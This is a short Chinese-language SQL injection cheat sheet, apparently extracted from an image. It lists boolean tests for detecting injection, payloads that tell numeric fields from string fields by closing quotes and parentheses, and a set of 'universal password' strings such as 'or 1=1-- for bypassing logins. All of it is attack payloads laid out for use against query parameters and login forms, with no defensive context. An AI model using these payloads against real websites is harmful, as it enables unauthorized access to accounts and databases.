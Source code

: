### 2.2.1.**新办法**

SELECT * FROM users WHERE id=1 and 1=1 LIMIT 0,1 页面正常

SELECT * FROM users WHERE id=1 and 1=2 LIMIT 0,1 页面不正常

### 2.2.2.**老办法**

?id=1 and 1=1 页面正常

?id=1 and 1=2 页面不正常

### 2.2.3.**字段判断**

#### 2.2.3.1.**数字型**

and 1=2--+

#### 2.2.3.2.**字符型**

'and 1=2--+

"and 1=2--+

)and 1=2--+

')and 1=2--+

")and 1=2--+

"))and 1=2--+

#### 2.2.3.3.**万能密码**

在遇到登录绕过的时候，就能够使用到万能密码。

"or "a"="a

 ')or('a'='a

or 1=1--

'or 1=1--

a'or' 1=1--

"or 1=1--

'or'a'='a

"or"="a'='a

'or''='

1'or'='or'

1 or '1'='1'=1

1 or '1'='1' or 1=1

 'OR 1=1%00
